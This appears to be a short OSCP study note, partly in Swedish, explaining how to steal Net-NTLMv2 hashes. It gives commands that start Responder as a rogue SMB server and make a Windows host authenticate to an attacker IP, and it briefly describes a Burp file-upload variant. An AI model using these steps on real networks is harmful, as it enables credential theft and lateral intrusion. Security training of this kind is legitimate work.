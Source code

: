 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/7. Password Attacks/7. Net-NTLMv2 Stealing/"}
---
```


- Another way of accessing hashes is by capturing them in the middle of an authentication to a controlled system.
- Hashes are spilled when trying to authenticate using the Net-NTLMv2 protocol instead of Kerberos, which is more secure.
- This could be done by already having RCE and accessing higher privileged hashes, or by forcing the system via some function to authenticate against our controlled machine

----------------

### RCE Net-NTLMv2 Hash Steal:
1. Enumerera användaren (valfritt):
```
net user <user>
```
2. Sätt upp SMB Server med Responder i Kali:
```
sudo responder -I <interface>
```
3. Skicka en förfrågan efter en arbiträr share på SMB-servern från Windows:
```
dir \\192.168.X.X\test
```
4. Win!

----------
### File Upload Net-NTLMv2 Hash Steal:
1. Modifiera Burp Requesten för parametern 'filename' att ladda upp en arbiträr fil från Responder-SMB:n.
2. Win!

